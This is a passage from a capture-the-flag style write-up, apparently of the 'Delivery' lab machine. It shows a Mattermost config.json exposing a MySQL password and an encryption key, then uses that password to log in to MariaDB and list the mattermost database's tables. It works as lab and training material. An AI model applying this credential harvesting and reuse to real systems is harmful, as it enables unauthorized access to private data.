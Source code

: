 ```bash
        "EnableLocalMode": false,
        "LocalModeSocketLocation": "/var/tmp/mattermost_local.socket",
        "EnableAWSMetering": false,
        "SplitKey": "",
        "FeatureFlagSyncIntervalSeconds": 30,
        "DebugSplit": false,
        "ThreadAutoFollow": true,
        "ManagedResourcePaths": ""
    },
<SNIP>
    "SqlSettings": {
        "DriverName": "mysql",
        "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mat
termost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",
        "DataSourceReplicas": [],
        "DataSourceSearchReplicas": [],
        "MaxIdleConns": 20,
        "ConnMaxLifetimeMilliseconds": 3600000,
        "MaxOpenConns": 300,
        "Trace": false,
        "AtRestEncryptKey": "n5uax3d4f919obtsp1pw1k5xetq1enez",
        "QueryTimeout": 30,
        "DisableDatabaseSearch": false
    },
```

Surprisingly, the `config.json` file contains `mmuser`'s credential : `Crack_The_MM_Admin_PW`
Let's try connect to `mysql` service with this credential.

```sql
maildeliverer@Delivery:/opt/mattermost/config$ mysql -u mmuser -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 95
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mattermost         |
+--------------------+
2 rows in set (0.000 sec)

MariaDB [(none)]> use mattermost;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [mattermost]> show tables;
+------------------------+
| Tables_in_mattermost   |
+------------------------+
| Audits                 |
| Bots                   |
| ChannelMemberHistory   |
| ChannelMembers         |
| Channels               |
| ClusterDiscovery       |
```